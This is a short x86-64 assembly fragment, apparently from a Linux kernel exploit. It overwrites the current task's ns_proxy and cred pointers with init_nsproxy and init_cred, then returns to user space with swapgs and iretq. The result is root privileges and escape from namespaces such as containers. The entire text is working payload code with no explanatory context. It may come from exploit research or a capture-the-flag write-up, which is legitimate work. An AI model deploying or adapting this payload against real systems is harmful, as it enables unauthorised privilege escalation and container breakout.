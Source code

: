```c
    pop r8
    pop r12

    mov rax, r8 
    add rax, 0x2a76900
    mov rdi, rax
    mov [rbx+2104], rdi    // task_struct->ns_proxy = init_nsproxy
    mov [r12+2104], rdi    // task_struct->ns_proxy = init_nsproxy

    mov rax, r8 
    add rax, 0x2a76b40
    mov rdi, rax
    mov [r12 + 2008], rdi   // task_struct->cred = init_cred
    swapgs 
    iretq
```